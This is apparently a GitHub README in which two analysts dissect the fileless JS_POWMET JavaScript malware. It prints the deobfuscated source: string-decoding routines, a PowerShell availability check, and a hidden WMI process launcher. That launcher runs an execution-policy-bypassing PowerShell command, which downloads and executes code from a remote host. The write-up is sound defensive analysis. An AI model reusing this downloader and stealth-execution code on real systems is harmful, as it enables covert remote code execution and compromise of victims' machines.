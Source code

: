 # JS_POWMET
JS_POWMET Malware Analysis, Javascript, Analysis descriptions and more... =)

This repo will contain an analysis of JS_POWMET some files will be uploaded to this repo that will contain "malicious code".

You can get an analysis from trendmicro in the next url: http://blog.trendmicro.com/trendlabs-security-intelligence/look-js_powmet-completely-fileless-malware/


Now We will explain the analysis phases:

## Javascript JS_POWMET

First, we checked the xml file with embedded javascript (wscript) code, and we could see that everything was obfuscated on a line with different encodings.
So in a great effort and line by line, we started to study program's logic, and get the functionality of each method.


## How javascript malware works

<strong>We changed some code for its string equivalent, if you want to see the equivalent check code comments</strong>

First thing malware does, it is to rotate the variable array_cifrado_Antes_llamado_0xa994 (you have the output from this function in the variable array_cifrado_movido). 

Normal Array:
```javascript
var array_cifrado_Antes_llamado_0xa994 = [" /p1'))", 'winmgmts:{impersonationLevel=impersonate}!\\.\root\cimv2', 'Get', 'Win32_ProcessStartup', 'SpawnInstance_', 'ShowWindow', 'winmgmts:root\cimv2:Win32_Process', 'Create', '%SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe', 'FileExists', 'ExpandEnvironmentStrings', '%SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe', 'toPrecision', 'https://bogerando.ru', 'WScript.Shell', "Scripting.FileSystemObject", " -nop -ep Bypass -noexit -c [System.Net.ServicePointManager]::ServerCertificateValidationCallback = { $true }; iex ((New-Object System.Net.WebClient).DownloadString('"];
```

Array rotated:
```javascript
var array_cifrado_movido = ['winmgmts:{impersonationLevel=impersonate}!\\.\root\cimv2', 'Get', 'Win32_ProcessStartup', 'SpawnInstance_', 'ShowWindow', 'winmgmts:root\cimv2:Win32_Process', 'Create', '%SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe', 'FileExists', 'ExpandEnvironmentStrings', '%SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe', 'toPrecision', 'https://bogerando.ru', 'WScript.Shell', "Scripting.FileSystemObject", " -nop -ep Bypass -noexit -c [System.Net.ServicePointManager]::ServerCertificateValidationCallback = { $true }; iex ((New-Object System.Net.WebClient).DownloadString('"," /p1'))"];
```

Function to rotate array:
```javascript
 (function(array_cifrado_parametro, var_0x155) {
			/*
			* gira 250 veces el array
			*/
            var remueve_array = function(var_contador) {
                while (--var_contador) {
					// '\x70\x75\x73\x68' = push 
					// '\x73\x68\x69\x66\x74' = shift 
					
                    array_cifrado_parametro['push'](array_cifrado_parametro['shift']());
                }
            };
            remueve_array(++var_0x155);
        }(array_cifrado_Antes_llamado_0xa994, 0x155));
```

At the same time, It creates some variables:
```javascript
var wshel, fso, url, fpath, fextension, showexec, pspath;
```

Malware will use these variables in this code, this code will run the method abc_bbb if user has Powershell installed: 
```javascript
try {
var i = 0x258;
// extraerString_AntesLlamado_0x4a99('0xb') = "toPrecision"
alert(i["toPrecision"](0x1f40));
} catch (_0x356210) {
try {
	// extraerString_AntesLlamado_0x4a99('0xc') = "https://bogerando.ru"
    url = "https://bogerando.ru";
    showexec = 0x0;
	// extraerString_AntesLlamado_0x4a99('0xd') = "WScript.Shell"
    wshel = new ActiveXObject("WScript.Shell");
	//extraerString_AntesLlamado_0x4a99('0xe') = "Scripting.FileSystemObject"
    fso = new ActiveXObject("Scripting.FileSystemObject");
    if (is_ps_installed()) {
		// extraerString_AntesLlamado_0x4a99('0xf') = " -nop -ep Bypass -noexit -c [System.Net.ServicePointManager]::ServerCertificateValidationCallback = { $true }; iex ((New-Object System.Net.WebClient).DownloadString('"
        // extraerString_AntesLlamado_0x4a99('0x10') = " /p1'))"
		abc_bbb(pspath + " -nop -ep Bypass -noexit -c [System.Net.ServicePointManager]::ServerCertificateValidationCallback = { $true }; iex ((New-Object System.Net.WebClient).DownloadString('" + url + " /p1'))", showexec);
    }
} catch (_0x243c33) {}
```
Here is the powershell check code:
```javascript
function is_ps_installed() {
/*
* Función para obtener la ruta hacia powershell
*/
//\x45\x78\x70\x61\x6e\x64\x45\x6e\x76\x69\x72\x6f\x6e\x6d\x65\x6e\x74\x53\x74\x72\x69\x6e\x67\x73 = ExpandEnvironmentStrings
pspath = wshel['ExpandEnvironmentStrings']("%SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe"); // extraerString_AntesLlamado_0x4a99('0x7') =  "%SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe"
// extraerString_AntesLlamado_0x4a99('0x8') = "FileExists"
if (fso["FileExists"](pspath)) {
    return pspath;
} else {
	// extraerString_AntesLlamado_0x4a99('0x9') = "ExpandEnvironmentStrings"
	// extraerString_AntesLlamado_0x4a99('0xa') = "%SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe"
    pspath = wshel["ExpandEnvironmentStrings"]("%SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe");
    if (fso["FileExists"](pspath)) {
        return pspath;
    }
}
return null;
}
```
Finally the abc_bbb code, will create some winmgmts objects to run powershell with a hidden console, this powershell command will download and run powershell code. Here is the abc_bbb function:
```javascript
function abc_bbb(_0xe83a79, showexec_0x52b22a) {
/*
* abc_bbb Ejecuta metodos winmgmts sin mostrar nada 
* 
* showexec_0x52b22a = 0x0 (No mostrar consola)
*/
try {
    var _0x32ce2c = GetObject("winmgmts:{impersonationLevel=impersonate}!\.ootcimv2"); //  extraerString_AntesLlamado_0x4a99('0x0') = "winmgmts:{impersonationLevel=impersonate}!\.ootcimv2"
    var _0x6b4dc5 = _0x32ce2c["Get"]("Win32_ProcessStartup"); // extraerString_AntesLlamado_0x4a99('0x1') = "Get" , extraerString_AntesLlamado_0x4a99('0x2') = "Win32_ProcessStartup"
    var Object_config_0xa44dcc = _0x6b4dc5["SpawnInstance_"](); // extraerString_AntesLlamado_0x4a99('0x3') = "SpawnInstance_"
    Object_config_0xa44dcc["ShowWindow"] = showexec_0x52b22a; // extraerString_AntesLlamado_0x4a99('0x4') = "ShowWindow"
    var _0x180dea = GetObject("winmgmts:rootcimv2:Win32_Process"); // extraerString_AntesLlamado_0x4a99('0x5') = "winmgmts:rootcimv2:Win32_Process"
    var Process_ID_0x321dea; // aqui guardara el PID del proceso
    return _0x180dea["Create"](_0xe83a79, null, Object_config_0xa44dcc, Process_ID_0x321dea); // extraerString_AntesLlamado_0x4a99('0x6') = "Create"
} catch (_0x352a82) {}
// ![] = false
return false;
}
```
Last function is an interesting function to decode each line from first array, instead of using normal javascript functions to decode the line, it will decode character by character.
```javascript
var extraerString_AntesLlamado_0x4a99 = function(valor_entero_Antes_llamado_0x38fb4f, no_vale_para_nada) 
{
    valor_entero_Antes_llamado_0x38fb4f = valor_entero_Antes_llamado_0x38fb4f - 0x0;
    var linea_array_cifrado = array_cifrado_Antes_llamado_0xa994[valor_entero_Antes_llamado_0x38fb4f];
	//\x69\x6e\x69\x74\x69\x61\x6c\x69\x7a\x65\x64 = initialized
    if (extraerString_AntesLlamado_0x4a99['initialized'] === undefined) {
        (function() {
			/*
			* Función para decodificar cada linea de base64 letra a letra 
			* intenta ofuscar el método de decodificación.
			*/
			//\x72\x65\x74\x75\x72\x6e\x20\x28\x66\x75\x6e\x63\x74\x69\x6f\x6e\x20\x28\x29\x20 = return (function () 
			//\x7b\x7d\x2e\x63\x6f\x6e\x73\x74\x72\x75\x63\x74\x6f\x72\x28\x22\x72\x65\x74\x75\x72\x6e\x20\x74\x68\x69\x73\x22\x29\x28\x29 = {}.constructor("return this")()
			//\x29\x3b = );
            var _0x4df2e5 = Function('return (function ()' + '{}.constructor("return this")()' + ');');
            var _0x38fe1b = _0x4df2e5(); // retorna función anonima
			//'\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x2b\x2f\x3d' =  ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=
            var _0x1dc063 = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=';
			//\x61\x74\x6f\x62 =  atob (decodifica una cadena en base64)
            _0x38fe1b['atob'] || (_0x38fe1b['atob'] = function(_0x3e2949) {
				// \x72\x65\x70\x6c\x61\x63\x65 = replace
				/* 
				* var _0x3644f3 = String(_0x3e2949)['replace'](/=+$/, ''); 
				* Creemos  que esta función reemplaza todos los iguales de final de linea por nada
				*/
                var _0x3644f3 = String(_0x3e2949)['replace'](/=+$/, '');
				//\x63\x68\x61\x72\x41\x74 = charAt
				//\x66\x72\x6f\x6d\x43\x68\x61\x72\x43\x6f\x64\x65 = fromCharCodefromCharCode
				//\x69\x6e\x64\x65\x78\x4f\x66 = indexOf
                for (var i = 0x0, j, l, k = 0x0, m = ''; //inicializacion
				l = _0x3644f3['charAt'](k++); //finalizacion
				~l && (j = i % 0x4 ? j * 0x40 + l : l, i++ % 0x4) ? m += String['fromCharCodefromCharCode'](0xff & j >> (-0x2 * i & 0x6)) : 0x0) //modificacion
				{
                    l = _0x1dc063['indexOf'](l);
                }
                return m;
            });
        }());
        //\x62\x61\x73\x65\x36\x34\x44\x65\x63\x6f\x64\x65\x55\x6e\x69\x63\x6f\x64\x65 =  base64DecodeUnicode
		extraerString_AntesLlamado_0x4a99['base64DecodeUnicode'] = function(_0x12e606) {
			/*
			* Codificador a hexadecimal de las cadenas
			* finalmente lo decodifica como URIs
			*/
            var base64_decodificado = atob(_0x12e606);
            var _0x29e7ff = [];
			//\x6c\x65\x6e\x67\x74\x68 = length
            for (var i = 0x0, j = base64_decodificado['length']; i < j; i++) {
				// \x25 %
				// \x30 0 
				// \x63\x68\x61\x72\x43\x6f\x64\x65\x41\x74 = charCodeAt
				// \x74\x6f\x53\x74\x72\x69\x6e\x67 = toString
				// \x73\x6c\x69\x63\x65 = slice
                _0x29e7ff += '%' + ('00' + base64_decodificado['charCodeAt'](i)['toString'](16))['slice'](-0x2);
            }
            return decodeURIComponent(_0x29e7ff);
        };
		// \x64\x61\x74\x61 = data
        extraerString_AntesLlamado_0x4a99['data'] = {};
		//\x69\x6e\x69\x74\x69\x61\x6c\x69\x7a\x65\x64 = initialized
		// inicializa a true 
		// !![] = true
        extraerString_AntesLlamado_0x4a99['initialized'] = true;
    }
    if (extraerString_AntesLlamado_0x4a99['data'][valor_entero_Antes_llamado_0x38fb4f] === undefined) {
		//\x62\x61\x73\x65\x36\x34\x44\x65\x63\x6f\x64\x65\x55\x6e\x69\x63\x6f\x64\x65 = base64DecodeUnicode
        linea_array_cifrado = extraerString_AntesLlamado_0x4a99['base64DecodeUnicode'](linea_array_cifrado);
        extraerString_AntesLlamado_0x4a99['data'][valor_entero_Antes_llamado_0x38fb4f] = linea_array_cifrado;
    } else {
        linea_array_cifrado = extraerString_AntesLlamado_0x4a99['data'][valor_entero_Antes_llamado_0x38fb4f];
    }
    return linea_array_cifrado;
};
```


You can check the obfuscated code in: <a href="https://github.com/Fare9/JS_POWMET/blob/master/JS_POWMET.DE.xml">JS_POWMET.DE.xml</a>

The deobfuscated code in: <a href="https://github.com/Fare9/JS_POWMET/blob/master/JS_POWMET.DE%28desofuscado%29.xml">JS_POWMET.DE(deobfuscated).xml</a>

And the Strings: <a href="https://github.com/Fare9/JS_POWMET/blob/master/CadenasCodificadasDescodificadas">Strings</a>



## Analysts

<a href="https://es.linkedin.com/in/aperezreyes">Alberto Pérez Reyes</a>
<a href="https://www.linkedin.com/in/eduardo-blazquez-23093999/">Eduardo Blázquez (a.k.a Fare9)</a>


## Remember visit and follow

<a href="https://github.com/Fare9">https://github.com/Fare9</a>
<a href="https://github.com/campeador">https://github.com/campeador</a>
<a href="https://twitter.com/Erockandblues">Fare9 Twitter</a>